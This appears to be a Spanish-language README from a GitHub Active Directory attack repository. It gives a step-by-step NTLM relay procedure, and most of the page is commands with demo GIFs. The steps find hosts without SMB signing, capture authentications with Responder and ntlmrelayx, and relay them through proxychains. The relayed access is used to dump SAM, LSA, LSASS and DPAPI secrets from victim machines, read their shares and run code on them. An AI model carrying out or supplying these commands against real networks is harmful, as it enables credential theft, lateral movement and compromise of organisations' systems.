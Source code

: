 # Capturar credenciales NTLM y redirigirlas

```Bash
# Obtener dispositivos con el SMB sin firmar
poetry run crackmapexec smb <rango ip> --gen-relay-list <output equipos relay>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid.gif?raw=true "Relay list")

```Bash
# Deshabilitar las opciones SMB y HTTP de Responder y ejecutarlo
sudo python responder.py -I <Interfaz de red>
# Ejecutar ntlmrelayx con socks para capturar y guardar la autenticación # La opción smb2support es cuando los objetivos son equipo actuales como windows 10 o Windoows server 2019
impacket-ntlmrelayx -tf <output equipos relay> -of netntlm -smb2support -socks
# Insertar el comando "socks" en la misma terminal para obtener las autenticaciones capturadas
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid2.gif?raw=true "Deshabilitar SMB y HHTP Ejecutar responder y ntlmrelayx")
![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid3.gif?raw=true "Capturar autenticaciones y guardarlas en socks")

```Bash
# Primero modificar el puerto de la última línea de proxychains para que quede asi:
socks4  127.0.0.1 1080
# Redirigir la autenticación obtenida con tlmrelayx con proxychains pudiendo realizar diversas acciones, como por ejemplo

# Obtener SAM y LSA de los equipos víctima
proxychains impacket-secretsdump -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
# Obtener LSASS de los equipos víctima
proxychains lsassy --no-pass -d <dominio> -u <usuario> <ip víctima>
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid4.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 1")

# Redirigir las credenciales

```Bash
# Instalar DonPAPI con desde su github con poetry: https://github.com/login-securite/DonPAPI
# Obtener dpapi de los equipos víctima y otras como  files, browser, schedule tasks,…
proxychains poetry run DonPAPI -no-pass '<dominio>'/'<usuario>'@'<ip víctima>'
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid5.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 2")


```Bash
# Obtener acceso a las carpetas del equipo
proxychains impacket-smbclient -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid6.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 3")

```Bash
# Obtener ejecución de código
proxychains impacket-smbexec -no-pass '<dominio>'/'<usuario>'@'<ip víctima>' -debug
```

![Alt text](https://github.com/jor6PS/ad-from-0-to-Hero/blob/master/no_credentials/NTLM_relay/vid7.gif?raw=true "Ejecutar comandos en las víctimas de NTLMrelay 4")

